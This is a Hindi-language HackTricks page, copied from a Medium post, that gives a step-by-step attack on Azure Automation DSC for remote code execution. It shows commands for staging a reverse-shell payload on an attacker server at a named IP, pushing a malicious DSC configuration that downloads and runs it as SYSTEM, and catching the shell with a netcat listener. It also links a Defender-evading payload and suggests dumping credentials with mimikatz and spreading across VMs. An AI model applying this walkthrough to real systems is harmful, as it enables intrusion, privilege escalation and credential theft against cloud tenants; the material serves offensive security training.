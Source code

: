# Az - स्टेट कॉन्फ़िगरेशन RCE

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **अपनी हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>

**यह पोस्ट यहाँ से कॉपी की गई है** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### रिमोट सर्वर (C2) इंफ्रास्ट्रक्चर तैयारी <a href="#f0fa" id="f0fa"></a>

मैं "40.84.7.74" रिमोट सर्वर से Nishang Invoke-PowerShellTcp.ps1 पेलोड का एक सरलीकृत संस्करण होस्ट करूँगा, जो कि Kali बॉक्स है। पेलोड का नाम "RevPS.ps1" होगा। Windows Defender द्वारा किसी भी कारण से Nishang स्क्रिप्ट को हटाए जाने से बचाने के लिए (शायद आप फाइल को डिस्क पर ड्रॉप करना पसंद करेंगे) मेरे पास यहाँ एक हल्का संस्करण है जिसे आप उपयोग कर सकते हैं जो Defender को बायपास करेगा: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). यह Kali बॉक्स पर एक साधारण Python Simple Server द्वारा होस्ट किया जाएगा।

### चरण 1 — फाइलें बनाएँ <a href="#89de" id="89de"></a>

हमें एक और DSC कॉन्फ़िगरेशन फाइल बनाने की आवश्यकता होगी। एक टेम्पलेट यहाँ से डाउनलोड किया जा सकता है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). यह कॉन्फ़िगरेशन फाइल उसी फाइल-राइट फंक्शन का उपयोग करेगी जिसे हमने पहले इस्तेमाल किया था। इस बार, सामग्री में हमारे रिमोट सर्वर से एक पेलोड डाउनलोड करने और निष्पादित करने के लिए कोड शामिल है। साथ ही, हम _ComputerManagementDsc_ मॉड्यूल से उपलब्ध एक शेड्यूल्ड-टास्क फंक्शन का उपयोग कर रहे हैं। शेड्यूल्ड-टास्क फंक्शन निष्पादन में मुख्य भूमिका निभाएगा और बाद में हमें SYSTEM विशेषाधिकार प्रदान करेगा।

हम एक स्क्रिप्ट भी डाउनलोड करेंगे जिसका उपयोग हम VM पर हमारे कॉन्फ़िगरेशन को प्रकाशित करने के लिए करेंगे। यह यहाँ स्थित है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

ये फाइलें एक टेम्पलेट के रूप में काम करेंगी। **आपको चर नामों और पैरामीटरों को भरने की आवश्यकता होगी जिनका आप उपयोग कर रहे हैं**। इसमें संसाधन नाम, फाइल पथ, और बाहरी सर्वर/पेलोड नाम शामिल हैं जिनका आप उपयोग कर रहे हैं। कृपया कोड में टिप्पणियों का संदर्भ लें।

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### चरण 2 — कॉन्फ़िगरेशन फाइल को ज़िप करें <a href="#c2c2" id="c2c2"></a>

हमारी दो फाइलें बनाने के बाद, हम **‘reverse\_shell\_config.ps1’** फाइल को ज़िप करेंगे ताकि इसे Storage Account में भेजा जा सके
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### चरण 3 — स्टोरेज संदर्भ सेट करें और अपलोड करें <a href="#bed9" id="bed9"></a>

फिर से, हम अपने स्टोरेज अकाउंट का संदर्भ सेटअप करेंगे जो मैंने पहले ही कर लिया है। मेरे पास पहले से ही 'एज़्योर-पेंटेस्ट' नामक एक कंटेनर है, इसलिए मैं अपना प्रकाशन यहाँ करूँगा:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### चरण 4 — काली बॉक्स तैयार करें <a href="#20fb" id="20fb"></a>

हमारे काली बॉक्स में, हम आसानी से _wget_ का उपयोग करके हमारे PowerShell पेलोड को डाउनलोड कर सकते हैं। कच्ची रिवर्स-शेल स्क्रिप्ट यहाँ स्थित है: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)।
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

हमें रिवर्स-शेल स्क्रिप्ट में अपने पैरामीटर्स जोड़ने की आवश्यकता है, ताकि विंडोज VM को पता चले कि एक बार निष्पादित होने पर कहां कनेक्ट करना है। मेरे मामले में मैं निम्नलिखित जोड़ता हूँ:
```
RevPShell -Reverse 40.84.7.73 443
```
### चरण 5 — कॉन्फ़िगरेशन फ़ाइल प्रकाशित करें <a href="#9ad6" id="9ad6"></a>

अब हम अपनी कॉन्फ़िगरेशन फ़ाइल चलाएंगे। मेरी सेटअप डेस्कटॉप पर प्रकाशित होने के लिए है ताकि बेहतर दृश्य मिल सके, हालांकि इसे लगभग कहीं भी प्रकाशित किया जा सकता है। कुछ मिनटों के बाद, हम देखेंगे कि रिवर्स-शेल स्क्रिप्ट प्रकाशित हो चुकी है!

### चरण 6 — पेलोड होस्ट करें और लिसनर सेटअप करें <a href="#c55f" id="c55f"></a>

एक बार जब हम कॉन्फ़िगरेशन प्रकाशित कर देते हैं, हम साथ-साथ पोर्ट 80 पर एक Python SimpleHTTPServer शुरू कर सकते हैं ताकि पेलोड को होस्ट किया जा सके, साथ ही एक netcat लिसनर भी सेटअप कर सकते हैं ताकि कनेक्शन को पकड़ा जा सके:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
हम देखते हैं कि निर्धारित कार्य चला गया है और हमारा पेलोड प्राप्त होकर मेमोरी में **SYSTEM** स्तर की विशेषाधिकारों के साथ निष्पादित हुआ है!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### समापन <a href="#1ec2" id="1ec2"></a>

इससे अब कई संभावनाएं खुल गई हैं। चूंकि हमारे पास **SYSTEM** के रूप में चल रहा शेल है, हम mimikatz के साथ क्रेडेंशियल्स डंप कर सकते हैं (यह क्लाउड संसाधनों के लिए EDR की परिपक्वता के आधार पर जोखिम भरा हो सकता है)। यदि आप क्रेड्स डंप करते हैं, तो इन्हें अन्य संसाधनों में पुन: उपयोग करने की अच्छी संभावना है। अंत में, एक बड़ी बात यह है कि इसे एक VM तक सीमित न करके, आपके पास अब इस कॉन्फ़िगरेशन को कई VMs में लागू करने की क्षमता हो सकती है।

इस नोट पर, हमारे Azure Automation DSC के साहसिक कार्य का समापन होता है! मुझे आशा है कि आपने मज़ा किया, बहुत कुछ सीखा और अपनी सृजनात्मकता के साथ विस्तार करते रहेंगे।

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
